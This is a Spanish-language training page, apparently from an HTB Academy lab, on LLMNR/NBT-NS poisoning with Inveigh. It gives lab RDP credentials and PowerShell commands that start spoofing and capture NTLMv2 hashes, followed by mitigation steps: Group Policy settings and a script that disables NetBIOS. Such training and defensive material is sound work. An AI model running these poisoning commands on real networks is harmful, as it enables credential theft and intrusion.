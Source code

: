 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Envenenamiento por LLMNR-NBT-NS desde Windows

> **QUOTE:** En esta sección, exploraremos la herramienta [Inveigh](https://github.com/Kevin-Robertson/Inveigh) e intentaremos capturar otro conjunto de credenciales.

> **NOTE:** La herramienta [Inveigh](https://github.com/Kevin-Robertson/Inveigh) funciona de manera similar a Responder, pero está escrita en PowerShell y C#. Inveigh puede escuchar IPv4 e IPv6 y varios otros protocolos.

```powershell
# Nos conectamos a la máquina con xfreerdp
xfreerdp /v:10.129.232.145 /u:htb-student /p:Academy_student_AD!

# Vamos a importar el módulo de Inveigh
Get-ExecutionPolicy
Set-ExecutionPolicy Unrestricted
Import-Module .\Inveigh.ps1
(Get-Command Invoke-Inveigh).Parameters

# Comencemos Inveigh con la suplantación de LLMNR y NBNS
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y

# Podemos pausar el envenenamiento
- Pulsa la tecla ESC
- Luego escribe HELP

# Podemos capturar los hashes únicos escribiendo "GET NTLMV2UNIQUE"
```

> [https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters)

### Remedio

> **NOTE:** Mitre ATT\&CK enumera esta técnica como [ID: T1557.001](https://attack.mitre.org/techniques/T1557/001), `Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay`.

> **TIP:** Existen algunas formas de mitigar este ataque. Para garantizar que estos ataques de suplantación de identidad no sean posibles, podemos desactivar LLMNR y NBT-NS. Como advertencia, siempre vale la pena probar lentamente un cambio significativo como este en su entorno con cuidado antes de implementarlo por completo.

> **QUOTE:** Como evaluadores de penetración, podemos recomendar estos pasos de solución, pero debemos comunicar claramente a nuestros clientes que deben probar estos cambios exhaustivamente para asegurarse de que la desactivación de ambos protocolos no dañe nada en la red.

> **SUCCESS:** Podemos deshabilitar LLMNR en la Política de grupo yendo a Configuración del equipo -> Plantillas administrativas -> Red -> Cliente DNS y habilitando "Desactivar la resolución de nombres de multidifusión".

<figure><img src="../../.gitbook/assets/llmnr_disable.webp" alt=""><figcaption></figcaption></figure>

> **BUG:** No es posible desactivar NBT-NS mediante la directiva de grupo, sino que debe desactivarse localmente en cada host. Para ello, abra `Network and Sharing Center`, en el `Control Panel`, haga clic en `Change adapter settings`, haga clic con el botón derecho en el adaptador para ver sus propiedades, seleccione `Internet Protocol Version 4 (TCP/IPv4)`, haga clic en el botón `Properties`, luego haga clic en `Advanced`, seleccione la pestaña `WINS` y, por último, seleccione `Disable NetBIOS over TCP/IP`

<figure><img src="../../.gitbook/assets/disable_nbtns.webp" alt=""><figcaption></figcaption></figure>

> **QUOTE:** Si bien no es posible deshabilitar NBT-NS directamente a través de GPO, podemos crear un script de PowerShell en Configuración del equipo --> Configuración de Windows --> Script (Inicio/Apagado) --> Inicio con algo como lo siguiente:

```powershell
$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
Get-ChildItem $regkey | foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose }
```

> **QUOTE:** En el Editor de políticas de grupo local, deberemos hacer doble clic en `Startup`, elegir la pestaña `PowerShell Scripts` y seleccionar "Para esta GPO, ejecutar scripts en el siguiente orden" para `Run Windows PowerShell scripts first`, y luego hacer clic en `Add` y elegir el script. Para que se produzcan estos cambios, tendríamos que reiniciar el sistema de destino o reiniciar el adaptador de red.

<figure><img src="../../.gitbook/assets/nbtns_gpo.webp" alt=""><figcaption></figcaption></figure>

> **TIP:** Para enviar esto a todos los hosts de un dominio, podríamos crear un GPO usando el `Group Policy Management` del controlador de dominio y alojar el script en el recurso compartido SYSVOL en la carpeta de scripts y luego llamarlo a través de su ruta UNC como:

`\\inlanefreight.local\SYSVOL\INLANEFREIGHT.LOCAL\scripts`

> **QUOTE:** Una vez que se aplica el GPO a unidades organizativas específicas y se reinician esos hosts, el script se ejecutará en el próximo reinicio y deshabilitará NBT-NS, siempre que el script aún exista en el recurso compartido SYSVOL y el host pueda acceder a él a través de la red.

<figure><img src="../../.gitbook/assets/nbtns_gpo_dc.webp" alt=""><figcaption></figcaption></figure>

> **TIP:** Otras mitigaciones incluyen filtrar el tráfico de red para bloquear el tráfico LLMNR/NetBIOS y habilitar la firma SMB para evitar ataques de retransmisión NTLM. Los sistemas de prevención y detección de intrusiones de red también se pueden utilizar para mitigar esta actividad, mientras que la segmentación de red se puede utilizar para aislar los hosts que requieren que LLMNR o NetBIOS estén habilitados para funcionar correctamente.
